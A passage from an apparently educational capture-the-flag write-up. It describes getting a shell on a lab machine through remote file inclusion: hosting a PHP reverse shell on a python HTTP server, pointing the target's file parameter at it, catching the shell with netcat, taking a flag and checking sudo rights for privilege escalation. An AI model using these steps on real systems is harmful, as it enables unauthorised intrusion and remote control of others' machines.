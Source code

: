 Now it's time for step 2: Direct the php into a simpler file - simply get a txt file with the content!

Hint: `php shell.php > shell.txt`

Onto step 3!

Open the file in the remote machine. 

First start a python HTTP server in the same directory that holds the file.

`python -m http.server`

Get the file from the local machine into the remote by accessing `/?file=<ip-address>:<port>/shell.txt` and set up a listener with `nc -lnvp 4444`.

Now that the remote machine has the file, try getting the `shell.php` file that is now on the remote machine.

![](../assets/img/stux-shell.png)

Upgrade the shell. If you need some help, [this](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/) explains it quite nicely.

From here, explore the home directory and get the `user.txt` flag.

![](../assets/img/user-flag.png)

## Privilege escalation

Now, let's find a way to escalate our privileges by checking `sudo -l`.

![](../assets/img/sudo-l.png)
